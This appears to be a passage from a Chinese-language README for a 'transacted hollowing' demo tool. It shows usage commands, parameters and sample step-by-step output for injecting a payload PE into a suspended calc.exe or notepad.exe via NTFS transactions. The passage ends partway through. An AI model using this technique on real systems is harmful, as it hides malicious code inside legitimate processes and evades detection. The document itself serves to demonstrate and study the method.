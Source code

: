 ## 使用方法

### 基本用法

```bash
transacted_hollowing.exe <载荷路径> [目标进程]
```

### 参数说明

- **载荷路径**（必需）：要注入执行的 PE 文件路径
- **目标进程**（可选）：被镂空的目标进程，默认为 `calc.exe`

### 使用示例

```bash
# 使用默认目标（计算器）
transacted_hollowing.exe test_payload.exe

# 指定目标进程
transacted_hollowing.exe test_payload.exe notepad.exe

# 使用完整路径
transacted_hollowing.exe C:\payload.exe C:\Windows\System32\\notepad.exe
```

## 运行示例

```
======================================
      事务性镂空技术演示程序
   Transacted Hollowing Demo
======================================

========== 开始事务性镂空 ==========
载荷文件：test_payload.exe
目标进程：C:\Windows\System32\calc.exe

[0] 读取载荷文件
    载荷架构：64 位

[1] 创建 NTFS 事务
    事务句柄：0x00000128

[2] 创建事务性文件
    文件路径：C:\Users\...\AppData\Local\Temp\TH1234.tmp
    文件句柄：0x0000012C

[3] 写入载荷到事务性文件
    载荷大小：51200 字节
    已写入：51200 字节

[4] 创建内存节对象（SEC_IMAGE）
    节句柄：0x00000130

[5] 回滚事务（删除文件）
    事务已回滚，文件已删除
    内存节创建成功！

[6] 创建挂起的目标进程
    进程 ID：5678
    进程句柄：0x00000134

[7] 映射内存节到目标进程
```